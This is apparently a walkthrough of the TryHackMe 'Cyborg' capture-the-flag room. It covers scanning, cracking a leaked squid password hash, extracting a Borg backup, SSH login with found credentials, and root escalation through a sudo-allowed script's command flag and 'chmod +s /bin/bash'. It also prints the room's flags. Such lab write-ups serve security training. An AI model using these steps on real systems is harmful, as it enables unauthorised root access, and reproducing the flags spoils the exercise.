








# Cyborg

> Platform: TryHackMe
>
> Created by: fieldraccoon
>
> Difficulty: Easy

## Reconnaisance, Scanning & Enumeration

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA cyborgscan
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:



Then, to know the hidden directory of the target, we need to run the GoBuster tool.
```bash
$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
```



When opening the **"/admin"** page, we found out that there is an **archive.tar** file that we can download. Let's download it first.



Extract the **.tar** file:
```bash
$ tar -xvf archive.tar
```

When going through the extracted files, we found out that it is a **Borg backup** file.

Also the page has another page which is **"/admin/admin/html"**. This page mentioned something about squid proxy and backup name music_archive. From the GoBuster also, when going to the **"/etc/squid"** page, we found out that there is two file which are the **"passwd"** file and **"squid.conf"** file.



Let's retrieved the files.
```bash
$ wget http://<TARGET-IP>/etc/squid/passwd

$ wget http://<TARGET-IP>/etc/squid/squid.conf
```

## Exploitation

From the passwd file that we had retrieved, let's try to crack it using **John**.
```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt passwd
```



Then, we can use the credentials to try extract the **"final_archive"** in the extracted file before using borg:
```bash
$ borg extract /PATH/TO/final_archive::music_archive
```

After finish extracting the files using Borg, in the file now has **/alex** directory. Try to find some clues.
```bash
$ find /PATH/TO/alex -name *.txt
/PATH/TO/alex/Desktop/secret.txt
/PATH/TO/alex/Desktop/note.txt

$ cat /PATH/TO/alex/Desktop/secret.txt
shoutout to all the people who have gotten to this stage whoop whoop!"

$ cat /PATH/TO/alex/Desktop/note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

Nice, looks like this maybe the **credentials for us to SSH** to the server.
```bash
$ ssh alex@<TARGET-IP>
```

Find the **"user.txt"**.

```bash
$ pwd
/home/alex

$ ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt

$ cat user.txt
```

## 🏳️Flag: user.txt
>**flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}**

## Privilege Escalation

Moving on to **escalate our privileges to root**.

First, try to check the sudo permission first using the command:
```bash
$ sudo -l
User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

Try to read the content of the **backup.sh** file.
```bash
$ cat /etc/mp3backups/backup.sh
```




Looks like it is a script which will **automate backup the song files**. However, when looking at the code, there are lines where if the script is **run with c flag (-c)**, it will run the command.

Try to run the script with **whoami** command:
```bash
$ sudo /etc/mp3backups/backup.sh -c whoami
root
```

Nice, now actually we can just get the root flag here by:
```bash
$ sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"
flag{not_the_real_root_flag} <-- You will get the real root flag here
```

But, to privilege our access to root, we can try by **changing the SUID bit of "/bin/bash"**, so that we **can access bash as root**.
```bash
$ sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
```

Now, we can run **"bash -p"** to get the bash as root:
```bash
$ bash -p

$ whoami
root

$ cat /root/root.txt
```

Now, we can read the **"root.txt"** file to complete this machine.



## 🏳️Flag: root.txt
>**flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}**